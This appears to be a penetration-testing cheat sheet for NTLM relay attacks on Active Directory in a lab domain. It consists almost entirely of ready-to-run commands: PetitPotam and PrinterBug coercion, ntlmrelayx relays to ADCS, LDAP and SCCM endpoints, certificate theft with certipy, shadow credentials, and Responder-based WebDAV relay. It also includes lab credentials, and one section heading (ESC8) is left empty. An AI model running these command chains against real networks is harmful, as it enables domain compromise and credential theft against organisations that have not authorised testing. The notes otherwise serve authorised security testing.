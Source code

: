 ### Store SOCKS Sessions
```bash
ntlmrelayx.py -t 192.168.86.182 -smb2support -socks

python3 PetitPotam.py 192.168.86.193 192.168.86.183
```

### Request User Certificate
```bash
# certipy
certipy relay -ca ca01.range.net -template 'DomainController'

# impacket
ntlmrelayx.py -t http://ca01.range.net/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'

# coerce with 
python3 PetitPotam.py 192.168.86.193 192.168.86.182
```

### Shadow Credentials
Additional Note: The target ldap server cannot be a CA server (ADCS) or else the attack won't work.
```bash
# note that --remove-mic is only needed with NetNTLMv1. If not, you might want to use a WebDav coerce approach.
ntlmrelayx.py -t ldap://dc01.range.net -smb2support --remove-mic --shadow-credentials --shadow-target 'ca01$'

# coerce 
py PetitPotam.py 192.168.86.193 192.168.86.182

# use Pass-The-Certificate attack to authenticate
```

### ESC8
```
```

### Stealing SCCM NAA Credentials
This attack would require a coercion methods (PetitPotam, PrinterBug, etc.) in order to relay to an SCCM http endpoint (`http://SCCM01/ccm_system/request` ). However as far as this is updated (10/13/2022), PR hasn't been merged yet. Here is the PR [link](https://github.com/SecureAuthCorp/impacket/pull/1425)
```bash
ntlmrelayx.py -t http://SCCM01/ccm_system/request --sccm --sccm-device Relay-Device --sccm-fqdn
```

### Webdav to LDAP(S)
1. Enumerate the environment if any servers/workstations have a webdav service enabled
```bash
cme smb 192.168.86.0/24 -u rangeadm -p Password123 -M webdav
```
2. Setup a response (this step is required because we need our NETBIOS name in order for webdav to work). Disable(off) HTTP and SMB protocol in `/etc/response/Responder.conf` config file.
```bash
responder -I eth0
```
3. Setup ntlmrelayx.py targetting ldap(s) protocol
```bash
ntlmrelayx.py -t ldaps://dc01.range.net -smb2support -i
```
4. Use any of your coerce methods. In my case, i'll use printerbug.py. 
```bash
py printerbug.py -no-ping range.net/rangeadm:Password123@192.168.86.184 'WIN-6FQLURGYGLP@80/whatever'
```